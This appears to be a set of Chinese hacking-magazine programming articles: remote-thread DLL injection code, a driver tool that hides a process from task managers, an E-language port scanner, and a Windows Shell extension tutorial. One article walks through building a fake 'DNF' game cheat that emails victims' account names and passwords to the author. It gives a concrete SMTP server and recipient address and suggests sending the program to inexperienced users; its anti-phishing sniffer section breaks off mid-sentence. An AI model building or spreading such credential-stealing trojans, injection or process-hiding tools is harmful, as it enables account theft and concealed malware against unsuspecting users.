或者拿来搞恶作剧？比如将别人的电脑中的常用程序劫持为整人小程序？总之要开动你的想象力，事实证明映像劫持还是一个比较有意思的东西。为了方便使用，我写一个批处理给大家；但如果你拿来恶作剧造成了什么损失，哈哈哈，今天天气真好，在下尚有要事去办，这便告辞了。

（文中涉及的“相关代码”本期光盘已收录。）

## DLL简介与远线程DLL注入原理

Linux-top

相信学过C语言但啥都干不了的小菜们不在少数，无奈步入Windows系统编程的学习周期实在是太长，不免有些枯燥，所以我在这里介绍一些远线程DLL注入的知识。这并不是什么新技术，但我这等菜鸟编程路上却是必备知识；希望对叉子们有所帮助，高手路过。

DLL称为动态链接库（Dynamic-Link Library的缩写）。DLL是一个包含可以由多个程序同时使用的代码和数据的库，DLL不是可执行文件（不能直接执行），但里面的函数和数据可以被其他程序调用或使用。动态链接的出现使进程可以调用不属于其可执行代码的函数。函数的可执行代码可以位于一个DLL中，该DLL文件中包含的函数和数据显然是不属于应用程序代码的，但是却被映射到可执行程序的内存地址空间中，如图1所示。多个应用程序可同时访问内存中单个DLL副本的内容，可以简单地理解为“共享的代码（也可以是数据）段”。

```cpp
#include <windows.h>

BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(NULL,"附加到进程","DLL通知",MB_OK);
        break;
    case DLL_THREAD_ATTACH:
        MessageBox(NULL,"附加到线程","DLL通知",MB_OK);
        break;
    case DLL_THREAD_DETACH:
        MessageBox(NULL,"解除了本线程","DLL通知",MB_OK);
        break;
    case DLL_PROCESS_DETACH:
        MessageBox(NULL,"解除了本进程","DLL通知",MB_OK);
        break;
    }
    return TRUE;
}
```

图2

现在我们就来建立一个用于测试的DLL，VC++6.0-文件-新建-工程-选Win32 Dynamic-Link Library-确定-选一个简单的DLL工程。系统帮助你建立了一个包含DllMain入口函数的工程，但此DllMain不是必须的（就是说DLL不必有入口，若有会先从这里执行），添加switch语句块（见源码）后如图2所示，这样编译后生成的DLL就可以用于测试该DLL的加载与解除（原理不说，一会看效果，你懂的！），程序编译后生成了*.dll文件。我们要做的就是让其他进程（我们要注入的进程）调用LoadLibrary系统函数来载入我们的这个dll。

但是问题随之而来，如何让别的进程调用LoadLibrary函数载入我们的dll文件呢？这里介绍一个API函数，CreateRemoteThread——创建远程线程，就是命令别的进程新开一个线程。参数如图3所示，从图3中看到我们需要一个被注入的进程的句柄（所谓句柄就是资源的把柄，类似指针但不是，是个数值），和一个线程函数地址`lpStartAddress`，还有线程函数的参数。


- 1. 执行的函数地址：`lpStartAddress`必须是目标进程中的。
- 2. 参数：必须是目标进程中的资源（比如字符串）。


我们想让别的进程执行的函数是`LoadLibrary`。`LoadLibrary`属于`Kernel32.dll`中的函数，一般程序都会加载`Kernel32.dll`，我们要准备的是得到`Kernel32`中`LoadLibrary`函数的地址。

```cpp
typedef DWORD (WINAPI *PTHREAD_START_ROUTINE)(LPVOID);

pfnThreadRtn=(PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("Kernel32"),"LoadLibraryA");
```

现在准备远进程的虚拟内存空间，用来存放`LoadLibrary`函数的参数，用`VirtualAllocEx`函数。

```cpp
int cch=1+strlen(pszLibFile);
int cb=cch*sizeof(char);
pszLibFileRemote=(PWSTR)VirtualAllocEx(hProcess,NULL,cb,MEM_COMMIT,PAGE_READWRITE);

hThread=CreateRemoteThread(hProcess,NULL,0,pfnThreadRtn,pszLibFileRemote,0,NULL);
```

`pszLibFileRemote`就是我们的DLL文件路径字符串在远进程地址空间中的地址。

创建`Win32`控制台程序，选择一个简单程序录入代码：

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdlib.h>
#include <iostream>

int main(int argc, char* argv[])
{
    HANDLE hProcess=NULL;
    HANDLE hThread=NULL;
    char* pszLibFile="\d114.dll";
    PWSTR pszLibFileRemote=NULL;

    std::cout<<"输入要注入的进程PID"<<std::endl;
    DWORD Process_PID=0;
    std::cin>>Process_PID;

    hProcess=::OpenProcess(PROCESS_QUERY_INFORMATION |
                           PROCESS_CREATE_THREAD |
                           PROCESS_VM_OPERATION |
                           PROCESS_VM_WRITE,
                           FALSE, Process_PID);
    if(hProcess==NULL){
        MessageBox(NULL,"得到进程句柄失败",NULL,MB_OK);
        exit(0);
    }
}
```

指定你之前工程下的 DLL 路径后编译。调试运行后，打开一个记事本程序，输入要注入远程进程的 PID 号，就将 DLL 注入到 notepad 进程中了。同样效果有道词典，效果如图5、6所示。你可以把你想做的事情放在 DLL 文件中调用，比如 `exit(0)` 用来退出进程之类的；也可以试试把应用程序代码的 `CreateRemoteThread` 函数的实参 `pfnThreadRtn` 换成 `0`，访问违规就挂掉了（说的是被注入的进程哦）。上面的代码都有很详细的注释，希望小白消化掉。文章到此也该结束了，其实还有大量的工作要做：比如分配了虚拟内存还没有释放，不支持输入函数名，异常也没有捕捉，还有权限问题，有些软件的进程句柄会打不开。本次只介绍了一个框架，用于理解原理，主要是访存这部分，具体的工作还得自己发挥，这些东西就留着 X 客们研究了。（文中涉及的“工程文件”本期光盘已收录）

## 三 驱动级进程保护（二）

在病毒木马与杀毒软件的彼此较量中，驱动程序对杀毒软件进程的保护是极其重要的，谁优先加载了驱动，谁就占据了这场“战争”的制高点。在通常情况下，杀毒软件都是事先安装在计算机上的，所以当木马或者病毒携带驱动开始运行的时候就会被拦截下来，并提示用户是否允许加载该驱动。如果我们写的这个驱动不含杀毒软件的病毒特征，杀毒软件的拦截功能一般会将选项默认设置在“允许”上，如图1所示金山卫士上的拦截情况。国内常见的拦截软件有金山卫士、360安全卫士，笔者在测试时候发现这两款软件都将选项设置在“允许修改”上。当然我们采用编程的方法可以使它们不弹出提示，然后再运行我们的驱动。本文中笔者将介绍利用驱动来保护指定的进程，并制作一款个人专用的进程保护工具，界面如图2所示。对于驱动的制作笔者将在后面的文章中介绍，这里仅仅提供了一个可移植的驱动，读者可以直接拿来应用。

文章中所使用的语言为 VC++，平台是 VC6.0。在使用本代码的时候需要安装 xpDDK 开发包，并将 DDK 头文件以及 lib 文件包含到 VC6.0 平台中，同时还要在工程中添加 `winsvc.h`、`tlhelp32.h` 两个头文件，否则编译过程中会有错误出现。文章中将只为大家介绍过程实现的核心代码。新建 MFC 应用程序，并添加 3 个按钮、一个编辑框，以及一个列表控件，如图3所示。然后为控件添加变量，这里只要为编辑框以及列表控件添加变量，编辑框控件的类型为 `CEdit`，列表框控件的变量类型为 `CListCtrl`，名称为 `m_process_list`，如图4所示。添加完毕后，我们开始书写代码。第一部分是获得进程列表，并添加到列表框中，我们将代码书写在对话框初始化的代码中，即 `OnInitDialog()`，关键代码如下所示。

下面要做的是获取进程列表，我们添加一个公有成员函数 `init()`，首先在头文件 `000000Dlg.h` 中添加我们需要的、在后面用到的函数声明，如下所示：

```cpp
m_process_list.InsertColumn(0, "ID", LVCFMT_LEFT, 30);
m_process_list.InsertColumn(1, "进程", LVCFMT_LEFT, 100);

m_process_list.SetExtendedStyle(LVS_EX_FULLROWSELECT | LVS_EX_GRIDLINES);
m_process_list.SetItemData(0, 888);
```

为了使我们的列表框中的进程能够实时刷新，这里我们采用设置定时器的方法，设置为 5s 刷新一次。启动定时器的代码我们也写在初始化对话框中，代码为 `SetTimer(1,5000,NULL)`。上面的代码一定要写在 `return TRUE` 返回代码之前，否则代码将不会被执行。

```cpp
public:
    CMy000000Dlg(CWnd* pParent = NULL);
    BOOL LoadNTDriver(char* lpDriverName, char* lpDriverPathName); // 加载驱动
    BOOL UnLoadSys(CString szSrvName); // 卸载驱动
    void Hook(HANDLE hDevice, ULONG pid); // pid：需要被保护进程ID
    void init(); // 初始化进程列表
```

添加完毕后，我们就需要在 `000000Dlg.cpp` 文件中实现这些代码。`init()` 的实现代码笔者就不列举了，光盘中已经提供了本节的所有源代码，读者可以自己查看。

在 `init()` 实现后，由于我们前面已经设置了定时器，所以这里要添加相应定时器的函数，操作方法如下：在程序的 class 窗口中，选择 `****Dlg` 类点击右键，选择添加消息响应。然后在消息列表中选择相应项，选择 `WM_TIMER` 消息，然后点击“ADD and EDIT”。此时我们将来到相应代码位置，我们在这里添加相应代码即可。

```cpp
void CHkp00000013::OnTimer(UINT nIDEvent) // 这里是响应定时器的函数
{
    // TODO: Add your message handler code here and/or call default
    switch (nIDEvent)
    {
    case 1:
        init();
        break;
    }
    CDialog::OnTimer(nIDEvent);
}
```

代码的具体实现笔者就不再赘述了，代码中已经给出了比较详细的注释。这里所列举的四个关键函数：

```cpp
BOOL LoadNTDriver(char* lpDriverName, char* lpDriverPathName);
BOOL UnLoadSys(CString szSvrName);
void Hook(HANDLE hDevice, ULONG pid);
void init();
```

每一个都可以单独拿出来用到其他的程序中，应该说移植性还是比较强的，读者可以将其提出并使用在自己的程序中。这里要提醒的一点就是，在驱动的测试过程中建议读者尽量在虚拟机中测试，因为稍有不慎就是机器蓝屏。

感兴趣的读者可以在本基础上继续开发，同时要增强程序的安全性以及错误处理。在使用驱动保护后，被保护的进程将不会在金山进程管理器中出现，同时任务管理器将无法结束该进程。这里用记事本程序做演示，保护前后以及用任务管理器结束该进程的效果图如图9、10、11所示。显示进程保护状况的工具这里没有给出，笔者还在继续完善，将会在后面的文章中给出该工具。

> （文中涉及的“驱动与驱动保护文件”本期光盘已收录）

## 易语言制作端口扫描器

水晶萧竹

学习易语言很长时间了，也算是个老鸟了吧。以前就想着给大家做一个端口扫描的例子，只是一直没有时间，终于趁着清明放假的这几天，给大家写出这篇文章来。

文章内容简单，菜鸟以上略过就行了。

首先，我们先制作一个端口扫描的可执行文件，也就是后缀是 exe 的文件。

准备好易语言，我用的是 5.1 版的，别的版本都行，都一样用。新建一个“Windows 窗口程序”（如图1）。

在建立好的程序调试窗口中添加上三个输入框、四个标签、两个按钮和一个列表框（如图2、图3）。告诉大家一个小窍门，那就是在添加的时候按住 Shift 可以连续添加多个控件哦！

好了，现在修改一下各个控件的属性。在易语言窗口的左边，有一个小框框，底下的标签分别是“支持库”“程序”和“属性”。当我们切换到属性标签的时候，我们就可以修改你选中的控件的属性了。可以看到标签的属性中有一个“标题”，我们只要修改它就可以使标签中显示的内容改变了（如图4）。

按照我给出的图3的标签控件布局，从上到下依次将标签属性中的标题改为“将要扫描的IP”“起始端口”和“结束端口”（注意，修改属性的时候应当先选中你所要修改的控件）。然后再修改两个按钮的属性，也是先选中按钮控件，然后将属性中的标题修改为“开始扫描”和“停止扫描”。修改后如图5所示。

修改完属性，接下来就要开始写代码了。这个程序我们使用的最主要的代码就是“端口检测（，）”了。这句代码可以检测指定 IP 的指定端口是否开放。如果指定端口开放则返回真，否则返回假。

先介绍一下易语言当中的四种循环语句。这四种语法分别是“变量循环”“判断循环”“循环判断”和“计次循环”。

- “变量循环”是一个运用十分广泛，但是用起来最麻烦的循环语法。
- “判断循环”是指先判断后循环，首先判断“判断循环首（）”括号里面的条件是否成立来确定是否执行循环。如果括号里的条件成立，程序顺序执行下一条命令进入循环；否则跳转到本命令所对应的“判断循环尾（）”命令的下一条命令处以跳出循环。
- “循环判断”是指先循环后判断，首先程序进入循环，然后执行完一次循环，判断“循环判断尾（）”括号里的内容是否成立，成立则跳转到“循环判断首（）”再进行一次循环，直到“循环判断尾（）”括号里的内容不成立。
- “计次循环”可以理解为能够人为控制循环次数的循环语法。

许多同学都对易语言当中的循环语法和正则表达语法十分头疼，其实我们只要认真揣摩返回值返回的信息，就非常好想了。

我们这里因为不一定从 1 开始循环，所以我们不能用“判断循环”“循环判断”和“计次循环”，只能用最为复杂的“变量循环”。

介绍完这两个代码，我们同学也对这两种代码有了初步了解了，接下来我们就将这两种代码写入程序当中。

回到易语言界面当中，我们双击“开始扫描”按钮，来到代码编辑页面（如图6）。

我们可以看到一个“按钮1_被单击”的子程序（“按钮1”是“开始扫描”的按钮名称），我们只要在它的下面写代码，单击“开始扫描”的时候，就会执行它下面的代码了。

首先我们要先建一个整数型变量，让它执行完一次循环就比原来的值大 1。比如第一次循环的时候这个变量为 1，第二次循环的时候这个变量变成了 2，第三次循环变成 3。用这个变量作为要检测的端口。

单击菜单栏上的“插入”——“局部变量”，在“按钮1_被单击”的子程序中添加一个名为“循环变量”的局部变量，然后在类型栏中按下空格键，在弹出的菜单中选择“整数型”（如图7），然后在下面的空白处写上如下代码（如图8）：

```text
循环变量 ＝ 到数值（编辑框2.内容）
变量循环首（到数值（编辑框2.内容），到数值（编辑框3.内容），1，循环变量）
端口检测（循环变量，编辑框1.内容）
变量循环尾（）
```

```text
如果（… = 真）
  列表框1.加入项目（到文本（循环变量））
否则
如果结束
变量循环尾（）
```

代码这样就写完了，但是为了方便，我们还要在循环当中添上一个“跳出循环（）”，用来单击“停止扫描”的时候程序跳出循环并停止扫描。我们只要再添加一个全局变量（“插入”——“全局变量”）：

- 变量名：跳出循环
- 类型：逻辑型

```text
如果（跳出循环 ＝ 真）
  跳出循环（）
否则
```

然后双击“停止扫描”来写“停止扫描”的代码：

```text
跳出循环 ＝ 真
```

然后我们按下 F5 或者单击菜单栏上的“运行”菜单中的“运行”来运行一下我们写的程序（如图9、图10）。

可以正常运行，说明现在的代码还没有错误。可是这样检测到的端口也不能显示出来啊？没关系，还记不记得上面我们提到的“端口检测（）”检测到端口开放时返回的值？是的，如果被检测端口开放，这句代码会返回“真”，这样我们就要用到“如果（）”这个函数了。关闭调试中的程序，将原来的代码稍做修改一下（图11）：

```text
循环变量 ＝ 到数值（编辑框2.内容）
变量循环首（到数值（编辑框2.内容），到数值（编辑框3.内容），1，循环变量）
如果（端口检测（循环变量，编辑框1.内容） = 真）
  列表框1.加入项目（到文本（循环变量））
如果结束
```

> 整个的代码就都写完了，是不是非常简单啊？如果还有不懂的，看录像吧，我都录下来了。如果再不明白，可以去论坛给我留言，期待和大家探讨编程问题哦！（文中涉及的“编程源码”本期光盘已收录）

## 关于DNF“外挂”的简单制作

黑酷

现在编写外挂的人越来越多，但是当你使用这些外挂的时候，你是否知道你的账号和密码在你不经意的情况下已经发到别人的邮箱里去了。接下来就由我为大家讲解一下如何编写一个仿钓鱼外挂与反钓鱼的方法。

我们需要以下几款软件：

- 1. 易语言
- 2. 嗅探器

“嗅探器”的使用。首先，我们要运行“易语言”，运行以后会出现一个框（如图1）。我们点击“Windows窗口程序”→“启动后不再显示此对话框”→“确定”，完成以后我们会得到一个这样的界面（如图2）。

现在，我们开始进行设置这个外挂的运行界面了。在这里我就以 DNF 为例设置一个运行界面。我们要设置这个运行界面，首先要有一个标题，在“启动窗口”这个框下的“标题”的右面输入运行界面的标题，这里我就输入“DNF无敌外挂”（如图3）。然后可在“启动窗口”框下“图标”的右边插入一个图标文件（如图4），并在“底色”处选择界面背景。接下来我们需要几个单选框和几个按钮。

“易语言”想必大家都很清楚是什么吧，网上也有很多下载地址，在这里我就不给大家介绍了。“嗅探工具”就是探测这个外挂是不是在你输入完账号或密码的情况下，把你的账号和密码发到编写外挂人的邮箱里去了。

易语言和嗅探工具的安装很简单，在这里我就不向大家一一介绍了。接下来我们就来编写一个“仿钓鱼外挂”和……

首先我们先创建几个选择框。我们可以在“基本组件”的框下单击“选择框”，然后在运行界面上拖动几个选择框，在这里我就拖动了五个（如图5）。有了这些“选择框”，我们为了使这个外挂真实，我们点击第一个“选择框”，在编辑框一栏中我们“标题”的右边填写你想让这个外挂实现的功能。根据《地下城与勇士》这个游戏，玩家很反感疲劳，因为疲劳一到就刷不了图了，所以我填写的是“无限疲劳”。我们为了做得真实一点，可以把文本颜色改成显眼的颜色（我个人认为改成红色），把背景颜色也改成与标题背景颜色相符的颜色（我个人认为改成黑色）。这样就能引诱用户使用本外挂（如图6）。依此类推，下面的也可以根据以上的方法来进行操作（如图7）。为了让这个外挂做得更美观一点，我们可以插入一张图片。这个也很简单，在“基本组件”这一框里点击“图片框”，我们即可插入你想要的图片了。这个和上面说的差不多，在这里我也不多说了，我随便插入一个图片（如图8）。

我们写这个仿钓鱼外挂的目的是什么？就是获取对方的账号和密码。接下来，我们开始添加输入“账号”和“密码”的框。方法很简单，我们先单击“基本组件”的框下的“按钮”，我们拖动两个（如图9），然后我们点击第一个“按钮”，在左面的框中“标题”的右面填写“请输入账号”；然后再点击第二个“按钮”，在左面的框中“标题”的右面填写“请输入密码”（如图10、11）。光有这两个“请输入账号”和“请输入密码”还是不行的，我们点击“基本组件”框下的“编辑框”，拖动出来两个，分别放在“请输入账号”和“请输入密码”的后面（如图12）。这样就能够输入账号和密码了。但是，我们在这两个编辑框里面可以无限制地输入数字和字母，这样会暴露我们这个外挂是假的。所以我们点击“请输入账号”后面的“编辑框”，在左面的框中“最大允许长度”右面输入“10”，然后在“输入方式”的右面选择“整数文本输入”，这样这个“编辑框”内只能输入 10 个数字了（如图13）。下面，我们点击“请输入密码”后面的“编辑框”，在左面的框中“最大允许长度”的右面输入“16”，因为密码最大长度就是十六位，然后我们在“输入方式”的右面选择“密码输入”，在“密码输入方式”的右面输入“*”。

接下来我们开始填写代码。我们双击按钮“确定”，在这里输入：

“信息框（‘您输入的账号或密码错误，请检查大小写是否正确。’）”（如图15）

（问：为什么要在运行界面“确定”下添加这样一条代码呢？答：万一用户输入的账号和密码是瞎打上的，他一运行没有提示，用户会怀疑这个外挂是否是真的，所以我们必须在按钮“确定”下添加以上这条代码。）

然后，我们在运行界面中双击按钮“关闭”，在这里输入“销毁”（如图16）。为了试验我们填写的代码是否能达到以上说的效果，我们试验一下。我们在“启动窗口”——>“”（如图17、18）。

接下来就是我们添加代码中最难的一个了：我们双击“启动窗口”中的“确定”按钮，在工具栏中点击“工具”下的“支持库配置”，在这里选择“互联网支持库2.0版”，然后点“确定”（如图19）。然后我们在这里添加以下代码：

图19

连接发信接收服务器（“这里输入发信邮件服务器地址，这个邮箱必须支持pop3、smtp才行”，25，“这里输入用户名”，“这里输入密码”）

图21

“发送邮件（编辑框1.内容，编辑框1.内容 + ‘---’ + 编辑框2.内容，‘这里输入收信人邮箱地址’，‘这里输入发信人邮箱地址’）”

到这里我们就添加完代码了，接下来我们就来试验一下，看看是否能实现这个功能。我输入发信邮件服务器地址是 smtp.pchome.com.tw，用户名是664933772，收信人地址是 xwx96@163.com，发信人邮件地址是 664933772@pchome.com.tw（如图20）。

图20

图22

接下来，我们就进行如何使用“嗅探器”来判断这个外挂是否是钓鱼外挂，查看它把我们的账号和密码都发送到哪个邮箱里面去了；我们是否能找到那个邮箱的密码。下面我就给大家讲解什么是反钓鱼，反钓鱼都有什么作用。首先我们必须知道什么是嗅探器。

嗅探器是可以窃听网络上流经的数据包。用集线器Hub组建的网络是基于共享的原理的，局域网内所有的计算机都接收相同的数据包。

网上嗅探器有很多，我在这里就给大家提供一个我认为很好的嗅探器，嗅探器在光盘里，有兴趣的可以在光盘里面下载。知道了什么是嗅探器，而我们现在也必须知道 smtp、pop3、ftp 服务端口；smtp（简单邮件传输协议）负责邮件的发送和传输；POP3（Post Office Protocol）邮局协议，pop邮箱是在web页面的一种收信方式，它可以将其它信箱里面的信件全部都收到目前这个邮箱中，类似于客户端收信的形式。

POP3是邮件邮局协议第三代（Post Office Protocol）的缩写，是绝大多数邮件收发程序使用的协议，接收邮件时一般都使用该协议。在服务器上的电子信箱，你能使用像 Outlook、Outlook Express、Foxmail 和 Netscape Mail 等邮箱客户端软件进行收发。每一个POP3账号都有自己的密码，不论你在哪一个地方连上互联网都可以检查你的邮件。知道了“smtp、pop3、ftp服务端口”会对我们接下来的实验有很大的帮助。

试验结果表明成功。

我们在“工具栏”中点击“编译”里面的“静态编译”，然后放在你想要的位置上就行了。我们也可以把这个“防钓鱼外挂”发给一些网络能力比较差的人，当他们输入账号和密码的同时却不知道自己的账号和密码已经被发送到你的邮箱里面了。到了这里，我们把“仿写钓鱼外挂”这个软件写完了。我们使用外挂的时候不知道这个外挂是否是钓鱼外挂，这个时候我们就可以使用“嗅探器”来探测一下这个外挂是否是钓鱼外挂。

先运行我们已经写好的“DNF无敌外挂”，当我们选择好功能和输入账号、密码的时候，我们运行“嗅探器”，然后再运行我们写好的“仿钓鱼外挂”。我们在那个外挂的运行界面写好账号和密码以后，打开“嗅探工具”，点击菜单栏中的“Capture”--->“Interfaces...”，然后我们在菜单栏中的“Filter”框的后面填写“smtp”……

图23

我们可以试验一下我们写的这个“防钓鱼外挂”是否能被“嗅探器”查到和探测到发送邮箱的密码，首先，我们……

## Windows Shell扩展编程

沧海浮萍

所谓的Shell扩展，就是能够添加某种功能到Windows Shell的COM对象。Windows里有着各种各样的扩展，但关于Shell扩展的原理以及如何编写Shell扩展的文档却很少。如果你想深入地了解Shell各方面的细节，我特别推荐Dino Esposito的著作《Visual C++ Windows Shell Programming》。不过这些是英文书籍，当然你可以参照词典进行阅读。

ATL是设计Shell扩展最简单最快捷的方法，如果没有它，你就不得不一遍又一遍地编写繁琐的 QueryInterface() 及 AddRef() 代码。另外，在Windows NT和2000上调试Shell扩展相对比较容易一些。Shell扩展有很多种类型，每种类型都在各自不同的事件发生时被调用运行，但也有一些扩展的类型和调用情形是非常相似的。

笔者仅对Shell扩展进行了概括性的代码阐述，并给出了一个上下文菜单的扩展示例让读者理解这个过程。由于Shell编程需要涉及到COM的知识，所以如果读者对Shell编程感兴趣的话，建议自学一下COM的相关知识。

那Shell扩展到底是什么东西？“Shell扩展”从字面上分两个部分：Shell与Extension。Shell指Windows Explorer，而Extension则指你编写的、当某一预先约定好的事件（如在以.doc为后缀的文件图标上单击右键）发生时由Explorer调用执行的代码。因此一个Shell扩展就是一个为Explorer添加功能的COM对象。

- **Context menu**：扩展处理器，用户右键单击文件或文件夹对象时，或在一个文件夹窗口中的背景处单击右键时，添加菜单项到上下文菜单中。
- **Property sheet**：扩展处理器，要显示一个文件对象的属性框时，添加定制属性页到属性表中。
- **Drag and Drop**：扩展处理器，用户用右键拖放文件对象到文件夹窗口或桌面时，添加菜单项到上下文菜单中。
- **Drop**：扩展处理器，用户拖动Shell对象并将它放到一个文件对象上时，执行任何想要的操作。
- **QueryInfo**：扩展处理器，用户将鼠标盘旋于文件或其他Shell对象的图标上时，返回一个浏览器用于显示在提示框中的字符串。

这里你可以简单地将其理解为“额外添加的右键菜单”。

Shell扩展的类型很多，而且微软也正不断地在每一新版本的Windows中加入更多的扩展类型。由于菜单扩展的编程方法比较简单，也容易理解，所以笔者这里就介绍扩展菜单的编程方法。

在我们编写代码之前，先说一些简化编码及调试工作的技巧。当Shell扩展被Explorer调用后，它会在内存中呆上一段时间，这会使你无法重新编译并生成Shell扩展DLL文件。

要让Explorer更迅速地卸载Shell扩展执行文件，需要创建如下注册表项：

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer
```

并创建一个名为 DesktopProcess 的 DWORD 值 1。这会使桌面和任务栏运行在同一个进程中，而其他每一个Explorer窗口都运行在它自己的进程内。也就是说，你可以在单个的Explorer窗口内进行调试，而后只要你关闭该窗口，你的DLL就会马上卸载。这就避免了因为DLL正被Windows使用而无法替换更新。而如果不幸出现这种情况，你就不得不注销登录后再重新登录进Windows，从而强制卸载使用中的Shell扩展DLL。

开始编写上下文菜单——它该做些什么？

基本的知识有了，下面我们就可以开始编写代码了。首先我们先从简单的开始：只弹出一个对话框以表明当前的扩展能够正常地工作。我们将这个Shell扩展关联到TXT文件，因此当用户右键单击文本文件对象时，扩展就会被调用。

我们采用的平台依然是VC6.0。运行AppWizard，生成一个名为SimpleExt的ATL COM工程。保留所有默认的设置选项，点击“完成”。现在我们已经有了一个空的ATL工程，它可以编译并生成一个DLL，但我们还需要添加Shell扩展的COM对象。

在ClassView中，右击 SimpleExt classes 条目，选择 New ATL Object。在 ATL Object Wizard 里，第一页默认已经选择了 Simple Object，所以单击 Next 即可。在第二页中，在 Short Name 文本框里输入 SimpleShlExt，点击 OK。（其余的文本框会自动填充完。）这样就创建了一个名为 CSimpleShlExt 的类，其包含了实现COM对象最基本的代码，我们将在这个类中加入我们自己的代码。

基本的工作已经完成了，下面我们就进行下一步操作：初始化接口。当我们的Shell扩展被加载时，Explorer将调用我们所实现的COM对象的 QueryInterface() 函数以获得一个 IShellExtInit 接口指针。该接口仅有一个方法 Initialize()，其函数原型为：

```
HRESULT IShellExtInit::Initialize(
  LPCITEMIDLIST pidlFolder,
  LPDATAOBJECT pDataObj,
  HKEY hProgID
);
```

Explorer使用该方法传递给我们各种各样的信息。pidlFolder是用户所选择操作的文件所在文件夹的PIDL变量。（一个PIDL［指向ID列表的指针］是一个数据结构，它唯一地标识了Shell命名空间的任何对象；一个Shell命名空间中的对象可以是，也可以不是真实文件系统中的对象。）

pDataObj是一个 IDataObject 接口指针，通过它我们可以获取用户所选择操作的文件名。

hProgID是一个HKEY注册表键变量，可以用它获取我们的DLL的注册数据。

在这个简单的扩展例子中，我们将只使用到 pDataObj 参数。

要添加这个接口进COM对象，先打开 SimpleShlExt.h 文件，修改为下面的代码：

```cpp
#include "shlobj.h"
#include "comdef.h"
class ATL_NO_VTABLE CSimpleShlExt :
  public CComObjectRootEx,
  public CComCoClass,
  public IDispatchImpl,
  public IShellExtInit
{
  BEGIN_COM_MAP(CSimpleShlExt)
    COM_INTERFACE_ENTRY(ISimpleShlExt)
    COM_INTERFACE_ENTRY(IDispatch)
    COM_INTERFACE_ENTRY(IShellExtInit)
  END_COM_MAP()
};
```

COM_MAP是ATL实现 QueryInterface() 机制的宏，它包含的列表告诉ATL：其他外部程序用 QueryInterface() 能从我们的COM对象获取哪些接口。接着，在类声明里加入 Initialize() 的函数原型。

另外我们需要一个变量来保存文件名：

```cpp
protected:
    TCHAR m_szFile[MAX_PATH];
public:
    // IShellExtInit
    STDMETHOD(Initialize)(LPCITEMIDLIST, LPDATAOBJECT, HKEY);
```

然后，在 SimpleShlExt.cpp 文件中，加入该函数方法的实现定义。

```cpp
HRESULT CSimpleShlExt::Initialize(LPCITEMIDLIST pidlFolder, LPDATAOBJECT pDataObj, HKEY hProgID)
```

我们要做的是取得被右击选择的文件名，再把该文件名显示在弹出消息框中。可能会有多个文件同时被选择右击，你可以用 pDataObj 接口指针获取所有文件名，但现在为简单起见，我们只获取第一个文件名。文件名的存放格式与你拖放文件到带 WS_EX_ACCEPTFILES 风格窗口时使用的文件名格式是一样的。这就是说我们可以使用同样的API来获取文件名：DragQueryFile()。

首先我们先获取包含在 IDataObject 中的数据句柄：

```cpp
{
    FORMATETC fmt = { CF_HDROP, NULL, DVASPECT_CONTENT, -1, TYMED_HGLOBAL };
    STGMEDIUM stg = { TYMED_HGLOBAL };
    HDROP hDrop;

    // 在数据对象内查找 CF_HDROP 型数据。
    if (FAILED(pDataObj->GetData(&fmt, &stg)))
    {
        // Nope! Return an "invalid argument" error back to Explorer.
        return E_INVALIDARG;
    }

    // 获得指向实际数据的指针。
    hDrop = (HDROP)GlobalLock(stg.hGlobal);

    // 检查非 NULL。
    if (NULL == hDrop)
    {
        return E_INVALIDARG;
    }
}
```

请注意错误检查，特别是指针的检查。

由于我们的扩展运行在Explorer进程内，要是我们的代码崩溃了，Explorer也会随之崩溃。现在我们有了一个HDROP句柄，我们就可以获取我们需要的文件名了：

```cpp
// 有效性检查 - 保证最少有一个文件名。
UINT uNumFiles = DragQueryFile(hDrop, 0xFFFFFFFF, NULL, 0);
if (0 == uNumFiles)
{
    GlobalUnlock(stg.hGlobal);
    ReleaseStgMedium(&stg);
    return E_INVALIDARG;
}
HRESULT hr = S_OK;

// 取得第一个文件名并把它保存在类成员 m_szFile 中。
if (0 == DragQueryFile(hDrop, 0, m_szFile, MAX_PATH))
{
    hr = E_INVALIDARG;
}
GlobalUnlock(stg.hGlobal);
ReleaseStgMedium(&stg);
return hr;
}
```

要是我们返回 E_INVALIDARG，Explorer将不会继续调用以后的扩展代码。要是返回 S_OK，Explorer将再一次调用 QueryInterface() 获取另一个我们下面就要添加的接口指针：IContextMenu。

下面开始按几个步骤进行我们的代码。

### A：与上下文菜单交互的接口

一旦Explorer初始化了扩展，它就会接着调用 IContextMenu 的方法让我们添加菜单项，提供状态栏上的提示，并响应执行用户的选择。添加 IContextMenu 接口到Shell扩展，类似于上面 IShellExtInit 接口的添加。打开 SimpleShlExt.h，修改以下代码：

```cpp
class ATL_NO_VTABLE CSimpleShlExt :
public CComObjectRootEx,
public CComCoClass,
public IDispatchImpl,
public IShellExtInit,
public IContextMenu
{
    BEGIN_COM_MAP(CSimpleShlExt)
        COM_INTERFACE_ENTRY(ISimpleShlExt)
        COM_INTERFACE_ENTRY(IDispatch)
        COM_INTERFACE_ENTRY(IShellExtInit)
        COM_INTERFACE_ENTRY(IContextMenu)
    END_COM_MAP()
```

添加 IContextMenu 方法的函数原型（public）：

`// IContextMenu`  
`STDMETHOD(GetCommandString)(UINT, UINT, UINT*, LPSTR, UINT);`  
`STDMETHOD(InvokeCommand)(LPCMINVOKECOMMANDINFO);`  
`STDMETHOD(QueryContextMenu)(HMENU, UINT, UINT, UINT, UINT);`

修改上下文菜单。IContextMenu 有三个方法，第一个是 QueryContextMenu()，它让我们可以修改上下文菜单，其原型为：

```cpp
HRESULT IContextMenu::QueryContextMenu(
    HMENU hmenu, UINT uMenuIndex,
    UINT uidFirstCmd, UINT uidLastCmd,
    UINT uFlags);
```

`hmenu`：上下文菜单句柄。  
`uMenuIndex`：我们应该添加菜单项的起始位置。  
`uidFirstCmd` 和 `uidLastCmd`：我们可以使用的菜单命令ID值范围。  
`uFlags`：标识Explorer调用 QueryContextMenu() 的原因。

```cpp
HRESULT CSimpleShlExt::QueryContextMenu(
    HMENU hmenu, UINT uMenuIndex,
    UINT uidFirstCmd, UINT uidLastCmd,
    UINT uFlags)
{
    // 如果标志包含 CMF_DEFAULTONLY 我们不作任何事情
    if (uFlags & CMF_DEFAULTONLY)
    {
